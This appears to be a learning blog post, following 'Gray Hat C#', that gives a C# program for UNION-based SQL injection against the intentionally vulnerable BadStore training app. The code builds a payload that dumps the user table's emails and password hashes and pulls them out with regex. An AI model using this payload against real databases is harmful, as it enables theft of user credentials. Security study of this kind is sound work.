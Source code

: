 ```yaml
---
title: Creating a UNION based mutational fuzzer to dump the database.
date: 2021-06-12 10:45:47 +07:00
categories: greyhatcch2
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a UNION based mutational fuzzer to dump the database.
---
```


## This Program is a UNION-Based mutational fuzzer that will use UNION based queries to pull out the db in a single http request.

_UNION injection is faster than boolean based/blind injection_.
- 2 major aspects are required for a succesfull UNION injection - Balance out the number of columns using SELECT statements and programatically find the data using regex.
- We use the:
  > `SELECT function` to balance out columns.
  
  > `CONCAT function` to surround the data with padding we care about.
- We use the "Regex" class and the `MatchCollection` class using the `System.Text.RegularExpressions` namespace to find and match the surrounding padded data from the `CONCAT() function` and extract the data in between.

### Code Block:

```Csharp
using System;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System.IO;
using System.Text.RegularExpressions;
using System.Web;


namespace Union_sql_fuzzer
{
    class Program
    {
        static void Main(string[] args)
        {
            string frontMarker = "FrOnTmArKeR";
            string middleMarker = "MiDdLeMaRkEr";
            string endMarker = "EnDmArKeR";

            string frontHex = string.Join("", frontMarker.Select(c => ((int)c).ToString("X2")));
            string middleHex = string.Join("", middleMarker.Select(c => ((int)c).ToString("X2")));
            string endHex = string.Join("", endMarker.Select(c => ((int)c).ToString("X2")));

            string url = "http://" + args[0] + "/cgi-bin/badstore.cgi";
            //payload definition slightly changed from source
            string payload = "fdsa' UNION ALL SELECT";
            payload += " NULL, NULL, NULL, CONCAT(0x" + frontHex + ", IFNULL(CAST(email AS";
            payload += " CHAR), NULL), 0x" + middleHex + ", IFNULL(CAST(passwd AS";
            payload += " CHAR), NULL), 0x" + endHex + ") FROM badstoredb.userdb# ";
            //HttpUtilty method used instead of Uri.EscapeUriString() method
            url += "?searchquery=" + HttpUtility.UrlEncode(payload) + "&action=search";
            Console.WriteLine("Fuzzing for union sql injections on url: \n" + url);

            //Making the Web request
            HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url);
            string response = string.Empty;
            using (StreamReader reader = new StreamReader(request.GetResponse().GetResponseStream()))
                response = reader.ReadToEnd();

            //Regex definition
            Regex payloadRegex = new Regex(frontMarker + "(.*?)" + middleMarker + "(.*?)" + endMarker);
            MatchCollection matches = payloadRegex.Matches(response);
            foreach (Match match in matches)
            {
                Console.WriteLine("\r\n[+] Username found is: " + match.Groups[1].Value + "\t");
                Console.Write("[+] Password Hash found is: " + match.Groups[2].Value + "\n");
            }
        }
    }
}

```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch2/UNION_sql_fuzzer/union_sql_fuzzer.png)

